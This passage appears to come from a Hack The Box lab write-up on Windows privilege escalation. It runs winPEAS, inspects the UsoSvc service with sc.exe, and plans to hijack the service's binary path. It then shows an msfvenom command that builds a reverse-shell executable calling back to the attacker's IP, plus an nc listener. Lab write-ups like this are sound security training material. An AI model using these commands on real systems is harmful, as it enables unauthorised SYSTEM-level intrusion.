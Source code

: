 ```powershell
PS C:\windows\system32\inetsrv> cd c:\Windows\System32\spool\drivers\color\
PS C:\Windows\System32\spool\drivers\color> .\winPEASx64.exe
```

`winPEAS` revealed that we have all access to the service `UsoSvc`:

![Desktop View](/assets/img/htb/machines/windows/easy/remote/winPEAS.png)

Let's get the current status and config of the service:

```powershell
PS C:\Windows\System32\spool\drivers\color> sc.exe query UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\Windows\System32\spool\drivers\color> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

Okay, maybe we can stop the service and try to change its `BINARY_PATH_NAME` by a malicious file.

- We can generate a malicious executable with `msfvenom` and start a listener:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe                                                            
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
$ nc -lnvp 53
listening on [any] 53 ...
```
